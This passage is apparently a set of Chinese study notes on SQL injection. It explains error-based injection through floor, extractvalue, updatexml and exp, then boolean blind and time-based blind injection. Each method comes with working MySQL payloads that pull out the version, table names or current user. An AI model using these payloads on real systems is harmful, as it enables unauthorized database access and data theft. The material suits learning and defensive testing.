     * Union注入限制：很多攻击场景不是select注入，union语句被很多网页过滤
2.  报错注入：数据报错语句中包含SQL语句执行结果

    * 常见报错注入函数：floor、extractvalue、updatexml...
    * `floor` payload：

    ```
    and select 1 from (select count(*), concat(version(), floor(rand(0)*2)) x from information_schema.tables group by x) a);%23
    ```

    * `extractvalue` payload（改变offset从0增加，可以读取数据库中的所有表名）：

    ```
    and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1 offset 1)));%23
    ```

    * `updatexml` payload：

    ```
    and 1 = (updatexml(1, concat(0x3a, (select user())), 1));%23
    ```

    * `Exp` payload：

    ```
    Exp(~(select * from (select user()) a));%23
    ```
3.  Boolean盲注

    * 在数据回显的不同，逐个爆破猜测。example，payload\&sql:

    ```
    xx' and pass > '123'%23
    ```

    ```
    select *from user where user = 'xx' and pass > '123'#
    ```

    *   截取字符串的相关函数：

        * `left(Str,len)` → 从左侧截取Str的前num位
        * `substr(Str,offset,len)` → 从offset（最开始位置标记为1）开始截取Str的len长度。`ascii()` 将字符转化为ascii值。`mid(Str,offset,len)` 用法相同。
        * `regex` 正则表达式的用法。比如匹配user为root的正则表达式用法：`select user() regexp '^root'` 。可以嵌套if语句使用：

        ```
        select * from users where id=1 and 1=(if((user() regexp '^r'), 1, 0));#
        ```
    * PS：mysql默认不区分大小写，可以先用binary函数处理
4.  Timing 盲注

    * 页面不存在不同回显，但SQL语句被执行 → 逐个猜测 + 延时执行
    * payload：

    ```
    if(ascii(substr(database(),1,1))>115,0,sleep(5))%23
    ```
